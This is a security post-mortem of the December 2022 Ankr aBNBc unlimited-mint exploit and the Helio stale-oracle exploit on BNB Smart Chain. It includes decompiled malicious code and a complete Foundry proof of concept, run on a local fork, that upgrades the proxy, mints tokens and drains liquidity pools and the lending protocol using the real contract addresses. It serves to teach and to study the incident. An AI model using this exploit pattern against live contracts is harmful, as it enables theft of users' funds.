

## Hack Analysis: Ankr & Helio, December 2022

### Introduction
[Ankr protocol](https://twitter.com/ankr) was hacked on December 2nd, 2022, when an attacker was able to mint 6 quadrillion of its reward-bearing aBNBc staking tokens, resulting in $5m worth of damage. A secondary exploit occurred on [Helio protocol](https://helio.money/) due to stale pricing of the aBNBc token following the draining of liquidity pools as the original attacker swapped 20 trillion tokens for BNB. Helio was incorrectly leveraging a BNB/USD price oracle which did not reflect this sell-off in aBNBc, so another attacker was able to borrow 16m HAY tokens against aBNBc which were purchased at a heavily discounted rate and then sold for $15.5m.

In an apparent compromise of the Ankr admin deployer key, the attacker sent a transaction to upgrade the aBNBc contract to their own malicious implementation, allowing any caller to mint an unlimited number of tokens. This exploit occurred on the same day as wider protocol maintenance operations but it is not clear whether the admin key was leaked during this process.

In this article, we will be analyzing both exploits and then we’ll create our own version of the attack to steal funds, testing it against a local fork. You can check the full PoC [here](https://github.com/giovannidisiena/immunefi-writeup).

This article was written by [Giovanni Di Siena](https://twitter.com/giovannidisiena), a smart contract security researcher at [Cyfrin](https://www.cyfrin.io/).

### Background
Ankr is a multi-chain infrastructure and liquid staking protocol while Helio is an over-collateralized lending protocol. Both are built on the Binance Smart Chain (BSC).

Like most liquid staking protocols, users of Ankr deposit collateral in return for an interest-bearing staking token which represents their share of the underlying collateral plus any rewards. These representative tokens have the same economic value as the original BEP-20s and so can eventually be burned to unlock the funds. In this regard, an attacker who is able to mint an arbitrary number of staking tokens effectively takes control of the underlying staked collateral.

Similarly, like most over-collateralized lending protocols and based on a fork of MakerDAO, Helio allows users to borrow against their collateral at some well-defined collateral ratio. In this case, the collateral is aBNBc, which is the staking token of Ankr, which can be used to mint HAY, the native stablecoin of Helio. The HAY token is then used to pay back the loan, and the collateral is returned to the user. If an attacker is able to borrow HAY against aBNBc at a heavily discounted rate, in the case of a price oracle manipulation (or misconfiguration) attack, then it is possible to sell for a profit.

### Root Cause
The compromised Ankr [admin deployer](https://bscscan.com/txs?a=0x2ffc59d32a524611bb891cab759112a51f9e33c0) key, coupled with upgradeability, is the root cause here.


As shown above, the exploit steps using the admin deployer key included an implementation [upgrade](https://bscscan.com/tx/0xcbc5ff4a6c9a66274f9bde424777c3dc862ab576e282fbea3c9c2609ca3e282b) and a [malicious call](https://bscscan.com/tx/0xe367d05e7ff37eb6d0b7d763495f218740c979348d7a3b6d8e72d3b947c86e33) to an unknown selector.


In actual fact, the exploiter called this malicious function multiple times with multiple recipient addresses which can be seen filtering aBNBc token [transactions](https://bscscan.com/token/0xe85afccdafbe7f2b096f268e31cce3da8da2990a?a=0xf3a465c9fa6663ff50794c698f600faa4b05c777) by exploiter address (in this example their primary address). The attacker also [transferred BNB](https://bscscan.com/tx/0xeb617798207d1c9dc20afbe90e82a44a9ae4b53004ef47f82d3f70eabf69ba72) from the Ankr deployer to one of their fresh wallets to cover gas when [cashing out](https://bscscan.com/txs?a=0xf3a465c9fa6663ff50794c698f600faa4b05c777&p=2) for [various BEP-20s](https://bscscan.com/tokentxns?a=0xf3a465c9fa6663ff50794c698f600faa4b05c777) and bridging funds to other chains.

Given that this attack did not involve any complex transactions or interactions with other DeFi protocols, we can attempt to reverse engineer the malicious aBNBc implementation contract to better understand how the attack was executed. Having retrieved the contract bytecode, [decompilation](https://ethervm.io/decompile/binance/0xd99955B615EF66F9Ee1430B02538a2eA52b14Ce4) and comparison with the [previous implementation contract](https://bscscan.com/address/0x9e6616089e3d78faa9b6a1361b67e562c1600871) shows that they differ by only the new malicious function. Querying a [signature database](https://openchain.xyz/signatures), we don't find a match for the selector.


So now let's analyse the result of decompilation. While `AnkrStaking::mint` is protected by an `onlyMinter` modifier, the malicious function with selector `0x3b3a5522` completely bypasses the caller verification.

```
...
} else if (var0 == 0x3b3a5522) {
    // Dispatch table entry for 0x3b3a5522 (unknown)
    var1 = 0x027d;
    var2 = 0x0278;
    var4 = 0x04;
    var3 = var4 + (msg.data.length - var4);
    var2, var3 = func_1DE2(var3, var4);
    func_0278(var2, var3);
    stop();
}
...
```

The decompilation result first retrieves arguments from calldata before passing them through to a function which performs the actual logic. Here, we have the recipient address and balance to mint which we can see reflected in the exploiter transaction calldata:
```
0x3b3a5522000000000000000000000000f3a465c9fa6663ff50794c698f600faa4b05c777000000000000000000000000000000000000007e37be2022c0914b2680000000
```
Here, the first four bytes being the function selector selector, the next 32-byte chunk contains recipient address and the final 32 bytes the abi-encoded balance. So in the next snippet, `arg0 = recipient` and `arg1 = balance`.

```
function func_16D3(var arg0, var arg1) {
        if (arg0 & 0xffffffffffffffffffffffffffffffffffffffff) {
            var var0 = 0x174e;
            var var1 = 0x00;
            var var2 = arg0;
            var var3 = arg1;
            func_1C2C(var1, var2, var3);
            var0 = arg1;
            var1 = 0x67;
            var2 = 0x00;
            var3 = 0x1760;
            var var4 = var0;
            var var5 = storage[var1];
            var3 = func_203E(var4, var5);
            storage[var1] = var3;
            var temp0 = arg0;
            memory[0x00:0x20] = temp0 & 0xffffffffffffffffffffffffffffffffffffffff;
            memory[0x20:0x40] = 0x65;
            var temp1 = keccak256(memory[0x00:0x40]);
            storage[temp1] = storage[temp1] + arg1;
            var0 = temp0 & 0xffffffffffffffffffffffffffffffffffffffff;
            var1 = 0xffffffffffffffffffffffffffffffffffffffff & 0x00;
            var2 = 0xddf252ad1be2c89b69c2b068fc378daa952ba7f163c4a11628f55a4df523b3ef;
            var3 = 0x1812;
            var4 = arg1;
            var5 = memory[0x40:0x60];
            var3 = func_1E67(var4, var5);
            var temp2 = memory[0x40:0x60];
            log(memory[temp2:temp2 + var3 - temp2], [stack[-2], stack[-3], stack[-4]]);
            var0 = 0x1826;
            var1 = 0x00;
            var2 = arg0;
            var3 = arg1;
            func_1C31(var1, var2, var3);
            return;
        } else {
            ...
        }
    }
```

If we hadn't already figured it out, from `arg0 & 0xffffffffffffffffffffffffffffffffffffffff` we can deduce that the first argument should be an address due to bitwise AND with a 20-byte mask. The next lines are setting up memory for calculation of the storage slot corresponding to `hash(key, slot)` of a mapping:

```
memory[0x00:0x20] = temp0 & 0xffffffffffffffffffffffffffffffffffffffff;
memory[0x20:0x40] = 0x65;
var temp1 = keccak256(memory[0x00:0x40]);
```

In this case, we can assume that it is used to keep track of balances due to incrementing the stored value by the specified amount. The remainder of the function is concerned with event emission which we don't need to discuss.

```
storage[temp1] = storage[temp1] + arg1;
```

Another useful method for verifying this assumption is to look at the storage layout of the previous implementation contract, remembering that `0x65` is `101` in decimal:


And as we can see, the `_balances` mapping is indeed at slot `101`. So now the attacker has successfully minted themselves an arbitrary number of tokens.

Note: I highly recommend reading [this article](https://ethereum.org/en/developers/tutorials/reverse-engineering-a-contract/) if you are new to reverse engineering smart contracts. It will give you a good overview of the process and the tools you can use to further probe unknown bytecode.

In the case of Helio, the exploit hinges on stale price data due to [oracle misconfiguration](https://bscscan.com/address/0xf81748d12171de989a5bbf2d76bf10bfbbaec596), incorrectly leveraging the [Chainlink: BNB/USD Price Feed](https://bscscan.com/address/0x0567f2323251f0aab15c8dfb1967e4e8a7d42aee) which of course did not reflect changes in the market value of aBNBc and so highlights the importance of being careful when making assumptions about the price of like-assets.



Following the Ankr exploit, the Helio exploiter used the 1inch DEX aggregator to take advantage of the drained liquidity pools, [swapping 10 BNB](https://bscscan.com/tx/0xaab2611b70f69cf79324c9bc5d0fcd) for a large number of aBNBc tokens which were then [deposited](https://bscscan.com/tx/0x5490c8051f71134af8b8348f0087729f4ad05b304dc3ece51902012c720afbf20) to the Helio provider contract. Here, hBNB simply represents a deposit receipt.


The final step was to simply borrow against the bad collateral at a highly inflated rate before cashing out HAY to BUSD.


### Proof of Concept
Now that we understand the Ankr attacker's malicious implementation contract and steps involved in attacking Helio, we can formulate our own proof of concept (PoC) to exploit both protocols using Foundry. We will impersonate the Ankr admin deployer to simulate key compromise, upgrade the aBNBc contract and profit.

We’ll start by selecting an RPC provider with archive access. For this demonstration, it seems only fitting to use the free public RPC aggregator provided by Ankr. Our `foundry.toml` file will look something like this:

```toml
[profile.default]
src = 'src'
out = 'out'
libs = ['lib']

rpc_storage_caching = { chains = ["bsc"], endpoints = "all" }

[rpc_endpoints]
bsc = "https://rpc.ankr.com/bsc"
```

We select the block number `23545400` as our fork block, 1 block before the first hack transaction. This can be achieved by using the following `setUp` function, which also utilizes the forge standard library function `makeAddr` to create labelled addresses for the contracts we will be interacting with:

```solidity
function setUp() public {
    vm.createSelectFork("bsc", 23545400);

    ANKR_EXPLOITER = makeAddr("Ankr Exploiter");
    HELIO_EXPLOITER = makeAddr("Helio Exploiter");
    evilImpl = new EvilImplementation();
}
```

### The Attack
Let’s begin by creating our Exploit test contract. First, it is helpful to define constants for all the relevant contract addresses with which we will be interacting, for example:

```solidity
address public constant ANKR_DEPLOYER = 0x2Ffc59d32A524611Bb891cab759112A51f9e33C0;
    address public constant ANKR_PROXY_ADMIN = 0x1bD5dF997c8612652886723406131F582ab93DEf;
    address public constant ABNBC_PROXY = 0xE85aFCcDaFBE7F2B096f268e31ccE3da8dA2990A;
```

We deploy the malicious implementation contract by including the `setUp` function snippet above and then call `ProxyAdmin::upgrade`, passing the target proxy address and address of the malicious implementation contract as arguments. This will upgrade the proxy to the malicious implementation contract which will allow us to mint an unlimited number of aBNBc tokens.

```solidity
function testExploit() public {
    // simulate compromised Ankr admin deployer private key
    vm.startPrank(ANKR_DEPLOYER);

    // upgrade to evil implementation
    ProxyAdmin(ANKR_PROXY_ADMIN).upgrade(ABNBC_PROXY, address(evilImpl));

    // mint tokens to the exploiter
    changePrank(ANKR_DEPLOYER);
    EvilImplementation(ABNBC_PROXY).evilMint(ANKR_EXPLOITER, EXPLOIT_AMOUNT);
}
```

Now that our malicious implementation is in place, simply calling the evil mint function on the proxy will mint an unlimited number of tokens which we can then sell for a profit. We'll interface with the PankcakeSwap router to swap our tokens for USDC via wBNB, draining the liquidity pool in the process which can be seen in the full test exploit below.

If we run this PoC against the forked block number, we will get the following output:

```
aBNBc minted: 10000000000000000000000000000000
USDC received: 1947301589818705183929984
```

A cool $2 million in profit, which of course could be increased by minting more aBNBc as was done in the real attack.

Similarly, for the Helio section of the exploit, will see:

```
HAY received: 17500000000000000000000000
BUSD received: 1825906255318519034250193
```

Again, almost $2 million in profit.

### Conclusion
The Ankr exploit was an unfortunate hack which had even more severe secondary effects. The attack stresses the importance of secure key management and use of appropriate multisignature access controls when making protocol changes. Furthermore, Helio demonstrates that extreme care should be taking when configuring price oracles, especially in the case that assumptions are being made about the price of like-assets.

It should be noted that a recovery fund has been coordinated to compensate affected users and cover bad Helio debt, as described in this [blog post](https://www.ankr.com/blog/ankr-makes-progress-with-recovery-program-targets-and-milestones/).

This is what our entire PoC looks like, with the addition of some helpful Foundry assertions and logs:

```
contract Exploit is Test {
    address public constant ANKR_DEPLOYER = 0x2Ffc59d32A524611Bb891cab759112A51f9e33C0;
    address public constant ANKR_PROXY_ADMIN = 0x1bD5dF997c8612652886723406131F582ab93DEf;
    address public constant ABNBC_PROXY = 0xE85aFCcDaFBE7F2B096f268e31ccE3da8dA2990A;
    address public constant HELIO_INTERACTION = 0xB68443Ee3e828baD1526b3e0Bdf2Dfc6b1975ec4;
    address public constant HELIO_PROVIDER = 0xa835F890Fcde7679e7F7711aBfd515d2A267Ed0B;
    address public constant HELIO_BNB = 0x4b30fcAA7945fE9fDEFD2895aae539ba102Ed6F6;
    address public constant HELIO_HAY = 0x0782b6d8c4551B9760e74c0545a9bCD90bdc41E5;
    address public constant CE_ROUTER = 0xA186D2363E5048D129E0a35E2fddDe767d4dada8;
    address public constant CE_ABNBC = 0x563282106A5B0538f8673c787B3A16D3Cc1DbF1a;
    uint256 public constant EXPLOIT_AMOUNT = 10_000_000_000_000 ether;
    address public ANKR_EXPLOITER;
    address public HELIO_EXPLOITER;
    EvilImplementation public evilImpl;

    address public constant WBNB = 0xbb4CdB9CBd36B01bD1cBaEBF2De08d9173bc095c;
    address public constant BUSD = 0xe9e7CEA3DedcA5984780Bafc599bD69ADd087D56;
    address public constant USDC = 0x8AC76a51cc950d9822D68b83fE1Ad97B32Cd580d;
    address[] aBNBcToUSDC = [ABNBC_PROXY, WBNB, BUSD, USDC];
    address[] wBNBToaBNBc = [WBNB, ABNBC_PROXY];
    address[] hayToBUSD= [HELIO_HAY, BUSD];
    IPancakePair WBNB_ABNBC_PAIR = IPancakePair(payable(0x272c2CF847A49215A3A1D4bFf8760E503A06f880));
    IPancakeRouter PANCAKE_ROUTER = IPancakeRouter(payable(0x10ED43C718714eb63d5aA57B78B54704E256024E));

    function setUp() public {
        vm.createSelectFork("bsc", 23545400);

        ANKR_EXPLOITER = makeAddr("Ankr Exploiter");
        HELIO_EXPLOITER = makeAddr("Helio Exploiter");
        evilImpl = new EvilImplementation();
    }

    function testExploit() public {
        assertEq(IERC20(ABNBC_PROXY).balanceOf(ANKR_EXPLOITER), 0);

        // simulate compromised Ankr admin deployer private key
        vm.startPrank(ANKR_DEPLOYER);

        // upgrade to evil implementation
        ProxyAdmin(ANKR_PROXY_ADMIN).upgrade(ABNBC_PROXY, address(evilImpl));

        // assert that the proxy implementation is now the evil implementation
        changePrank(ANKR_PROXY_ADMIN);
        assertEq(TransparentUpgradeableProxy(ABNBC_PROXY).implementation(), address(evilImpl));

        // mint tokens to the exploiter
        changePrank(ANKR_DEPLOYER);
        EvilImplementation(ABNBC_PROXY).evilMint(ANKR_EXPLOITER, EXPLOIT_AMOUNT);
        assertEq(IERC20(ABNBC_PROXY).balanceOf(ANKR_EXPLOITER), EXPLOIT_AMOUNT);
        emit log_named_uint("aBNBc minted", EXPLOIT_AMOUNT);

        // log pool reserves before
        (uint256 wBNB, uint256 aBNBc,) = WBNB_ABNBC_PAIR.getReserves();
        emit log_named_uint("wBNB reserves before", wBNB);
        emit log_named_uint("aBNBc reserves before", aBNBc);

        // swap aBNBc for USDC via wBNB and BUSD
        changePrank(ANKR_EXPLOITER);
        IERC20(ABNBC_PROXY).approve(address(PANCAKE_ROUTER), EXPLOIT_AMOUNT);
        (uint256[] memory amounts) = PANCAKE_ROUTER.swapExactTokensForTokens(
            EXPLOIT_AMOUNT, 0, aBNBcToUSDC, ANKR_EXPLOITER, block.timestamp + 500 seconds
        );
        emit log_named_uint("USDC received", amounts[amounts.length - 1]);
        delete amounts;

        // log pool reserves after
        (wBNB, aBNBc,) = WBNB_ABNBC_PAIR.getReserves();
        emit log_named_uint("wBNB reserves after", wBNB);
        emit log_named_uint("aBNBc reserves after", aBNBc);

        // advance time and start Helio exploit
        vm.warp(block.timestamp + 1 hours);
        uint256 wBNBAmount = 10 ether;
        deal(WBNB, HELIO_EXPLOITER, wBNBAmount);

        // buy cheap aBNBc
        changePrank(HELIO_EXPLOITER);
        emit log_named_uint("wBNB spent", wBNBAmount);
        IERC20(WBNB).approve(address(PANCAKE_ROUTER), wBNBAmount);
        (amounts) = PANCAKE_ROUTER.swapExactTokensForTokens(
            wBNBAmount, 0, wBNBToaBNBc, HELIO_EXPLOITER, block.timestamp + 500 seconds
        );
        uint256 aBNBcAmount = amounts[amounts.length - 1];
        emit log_named_uint("aBNBc received", aBNBcAmount);
        delete amounts;

        // query some Helio state
        (, bytes memory result) = HELIO_INTERACTION.call(abi.encodeWithSignature("spotter()"));
        address spotter = abi.decode(result, (address));
        emit log_named_address("spotter address", spotter);
        (, result) = HELIO_INTERACTION.call(abi.encodeWithSignature("collateralRate(address)", CE_ABNBC));
        uint256 collateralRate = abi.decode(result, (uint256));
        emit log_named_uint("collateralRate", collateralRate);
        (, result) = HELIO_INTERACTION.call(abi.encodeWithSignature("collateralPrice(address)", CE_ABNBC));
        emit log_named_uint("collateralPrice", (abi.decode(result, (uint256))));

        (,bytes32 ilk, , ) = Interaction(HELIO_INTERACTION).collaterals(CE_ABNBC);
        emit log_named_bytes32("ilk", ilk);

        (address pip, ) = Spotter(spotter).ilks(ilk);
        emit log_named_address("pip", pip);

        // take out Helio loan & profit
        uint256 hayAmount = 17_500_000 * 1e18;
        IERC20(ABNBC_PROXY).approve(CE_ROUTER, aBNBcAmount);
        Provider(HELIO_PROVIDER).provideInABNBc(aBNBcAmount);
        emit log_named_uint("hBNB received (deposit receipt)", IERC20(HELIO_BNB).balanceOf(HELIO_EXPLOITER));
        Interaction(HELIO_INTERACTION).borrow(CE_ABNBC, hayAmount);

        uint256 hayBalance = IERC20(HELIO_HAY).balanceOf(HELIO_EXPLOITER);
        emit log_named_uint("HAY received", hayBalance);
        IERC20(HELIO_HAY).approve(address(PANCAKE_ROUTER), hayBalance);
        (amounts) = PANCAKE_ROUTER.swapExactTokensForTokens(
            hayBalance, 0, hayToBUSD, HELIO_EXPLOITER, block.timestamp + 500 seconds
        );
        emit log_named_uint("BUSD received", amounts[amounts.length - 1]);
    }
}
```

